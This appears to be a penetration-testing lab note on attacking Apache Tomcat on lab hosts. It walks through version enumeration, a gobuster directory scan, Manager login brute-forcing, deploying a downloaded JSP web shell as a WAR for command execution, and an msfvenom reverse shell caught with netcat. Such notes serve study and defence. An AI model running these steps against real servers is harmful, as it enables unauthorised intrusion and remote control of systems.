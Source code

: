### Enumeration

Navigate to an invalid page states the Tomcat version:

![[Pasted image 20250202140119.png]]

Also use Curl

```bash
curl -s http://app-dev.inlanefreight.local:8080/docs/ | grep Tomcat
```

Typical Tomcat layout:

```bash
gobuster -u http://web01.inlanefreight.local:8180/ -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://web01.inlanefreight.local:8180/
[+] Threads      : 10
[+] Wordlist     : /opt/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2025/02/02 14:03:38 Starting gobuster
=====================================================
/docs (Status: 302)
/examples (Status: 302)
/manager (Status: 302)
```

### Attack

Brute Forcing:

Use the Metasploit module `scanner/http/tomcat_mgr_login`

RCE:

```bash
wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
```

```bash
zip -r backup.war cmd.jsp
```

Login into Manager and upload/deploy the war file, and execute:

```bash
curl http://web01.inlanefreight.local:8180/backup/cmd.jsp?cmd=id
```

To clean up, select `Undeploy`.

Reverse Shell:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your-IP> LPORT=4443 -f war > backup1.war
```

Upload/deploy, then click `backup1`

```bash
sudo nc -lvp 4443
Listening on 0.0.0.0 4443
Connection received on app-dev.inlanefreight.local 39786

id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
```



